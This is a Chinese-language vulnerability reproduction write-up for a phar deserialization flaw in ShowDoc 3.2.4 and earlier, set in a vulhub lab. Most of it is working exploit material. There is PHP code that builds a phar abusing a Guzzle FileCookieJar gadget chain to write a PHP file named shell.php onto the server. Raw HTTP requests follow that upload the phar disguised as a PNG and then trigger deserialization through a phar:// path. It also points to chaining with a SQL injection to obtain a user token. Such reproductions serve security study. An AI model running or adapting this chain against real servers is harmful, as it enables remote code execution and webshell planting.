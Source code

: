 ## showdoc<=3.2.4 phar反序列漏洞复现

环境：https://github.com/vulhub/vulhub/tree/master/showdoc/3.2.5-sqli

### 生成phar

```php
<?php

namespace GuzzleHttp\Cookie{

    class SetCookie {
        private static $defaults = [
            'Name'     => null,
            'Value'    => null,
            'Domain'   => null,
            'Path'     => '/',
            'Max-Age'  => null,
            'Expires'  => null,
            'Secure'   => false,
            'Discard'  => false,
            'HttpOnly' => false
        ];
        function __construct()
        {
            $this->data['Expires'] = '<?php phpinfo();?>';
            $this->data['Discard'] = 0;
        }
    }

    class CookieJar{
        private $cookies = [];
        private $strictMode;
        function __construct() {
            $this->cookies[] = new SetCookie();
        }
    }

    class FileCookieJar extends CookieJar {
        private $filename;
        private $storeSessionCookies;
        function __construct() {
            parent::__construct();
            $this->filename = "/var/www/html/shell.php";
            $this->storeSessionCookies = true;
        }
    }
}

namespace{
    $pop = new \GuzzleHttp\Cookie\FileCookieJar();
    $phar = new \Phar("y4tacker.phar");
    $phar->startBuffering();
    $phar->setStub('GIF89a'."__HALT_COMPILER();");
    $phar->setMetadata($pop);
    $phar->addFromString("test.txt", "test");
    $phar->stopBuffering();
}
```

### 文件上传

将生成的y4tacker.phar 命名为y4tacker.png，并上传到目标服务器上

user_token 可以使用 [showdoc<=3.2.5 注入漏洞](https://github.com/vulhub/vulhub/tree/master/showdoc/3.2.5-sqli)

![image-20240605084947972](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406071644333.png)

```
POST /server/index.php?s=/api/page/upload HTTP/1.1
Host: 172.17.187.187:4999
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryouyPGbWFA31vLr9M
Referer: http://172.17.187.187:4999/web/
Accept-Language: zh-CN,zh;q=0.9
Origin: http://172.17.187.187:4999
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Accept: */*
Content-Length: 1383

------WebKitFormBoundaryouyPGbWFA31vLr9M
Content-Disposition: form-data; name="page_id"

191212032
------WebKitFormBoundaryouyPGbWFA31vLr9M
Content-Disposition: form-data; name="item_id"

646578755a
------WebKitFormBoundaryouyPGbWFA31vLr9M
Content-Disposition: form-data; name="user_token"

271e074d6f1a642a9da4dca75579066a77045d9e8846a349465f7ac9717d70f1
------WebKitFormBoundaryouyPGbWFA31vLr9M
Content-Disposition: form-data; name="file"; filename="y4tacker.png"
Content-Type: image/png

{{file(C:\Penetration\TrafficTools\phpStudy\WWW\y4tacker.png)}}
------WebKitFormBoundaryouyPGbWFA31vLr9M--

```

![image-20240607163524529](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406071635754.png)

访问链接获取上传的文件路径

![image-20240607163640002](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406071636054.png)

### 触发phar反序列漏洞

```
GET /server/index.php?s=/home/index/new_is_writeable&file=phar://../Public/Uploads/2024-06-07/6662c593a97fe.png HTTP/1.1
Host:  172.17.187.187:4999
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
```

![image-20240607163847980](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406071638037.png)

![image-20240607163904233](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406071639270.png)

![image-20240607164014016](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406071640065.png)